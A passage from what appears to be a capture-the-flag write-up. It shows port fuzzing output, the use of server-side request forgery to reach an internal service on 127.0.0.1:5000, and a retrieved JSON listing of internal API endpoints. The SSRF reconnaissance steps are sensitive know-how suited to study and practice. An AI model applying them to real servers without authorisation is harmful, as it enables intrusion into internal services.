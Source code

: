 ```bash

5000                    [Status: 200, Size: 51, Words: 1, Lines: 1, Duration: 59ms]
:: Progress: [20000/20000] :: Job [1/1] :: 241 req/sec :: Duration: [0:00:57] :: Errors: 1 ::
```

Visiting the `127.0.0.1:5000` we get a file back in the response, confirming SSRF.

<figure><img src="broken-reference" alt=""><figcaption><p>A .json file is returned on port 5000</p></figcaption></figure>

Downloading the file, its a .json file.

```bash
$ file /home/kali/Downloads/cf3a9723-1f7e-4761-b97c-46342899748f
/home/kali/Downloads/cf3a9723-1f7e-4761-b97c-46342899748f: JSON text data
```

Opening the .json file returns several api endpoints.

```bash
cat /home/kali/Downloads/cf3a9723-1f7e-4761-b97c-46342899748f | jq .
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
```